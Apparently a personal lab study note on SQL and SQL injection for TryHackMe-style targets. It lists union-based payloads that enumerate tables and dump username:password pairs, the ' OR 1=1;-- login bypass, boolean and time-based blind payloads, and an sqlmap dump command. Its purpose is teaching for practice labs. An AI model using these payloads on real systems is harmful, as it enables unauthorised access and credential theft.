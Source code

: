 #WebExploitation

## SQL
##### *Select*
>`select * from users;`
>`select * from users LIMIT 1,1;` -> this forces the query to skip the first result and return the first row after that one
>Like clauses allow to search for data that kind of fits the criteria 
>% -> wildcard that represents characters, depends where you put it
>`select * from users where username like 'a%';` -> usernames that begin with a
>`select * from users where username like '%n';` -> usernames that end with n
>`select * from users where username like '%mi%';` -> usernames that contain mi

##### *Union*
Combines the result of two or more select statements, must retrieve same numbers of  columns, they must be of similar data types and the order has to be the same
>`select * from customers UNION select * from companies;`

##### *Insert*
>`insert into users (username,password) values ('bob','password123');`

##### *Update*
>`update users SET username='root',password='pass123' where username='admin';`

##### *Delete*
>`delete from users where username='martin';`
>`delete from users` -> deletes the whole table info since no where clause was specified

---
#### Sql Injection
The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

##### In-Band
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results

##### Error-Based SQL Injection
This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen

##### Union-Based SQL Injection
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page

*Use union select to guess the number of columns*
http://sqli.nahamsec.thm/article?id=1%20union%20select%201,2,3,4;--
>%20 is a space
>Sometimes that `'` is not needed

version() -> version of the db
database() -> database name
`0 UNION SELECT 1,2,database()`
Obtain table names from the database
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
Obtain column names from an specific table
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

*Usar tambien SELECT ALL*

##### Blind SQLi
Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless

###### Authentication Bypass
Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table
*`' OR 1=1;--`*

###### Boolean Based
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

###### Time Based
A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.

`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`

![[SQLI.JPG]]
http://sqli2.nahamsec.thm/article-count?date=May+2020%27%20and%20substring(@@version,1,1)=5%20and%201=%271
>%27 is a `'`

### Sqlmap
Useful sqlmap flags
```sqlmap
sqlmap -r req.txt --level 5 --risk 3 --batch --threads 10 -D nahamstore -T sqli_two -C flag --dump
```
Use a wildcard next to post parameters, turn the request into a .txt
`-r` -> use a file
`--batch`
`-dbs`
`-D`
`--tables`
`-T`
`--columns`
`-C`
`--dump`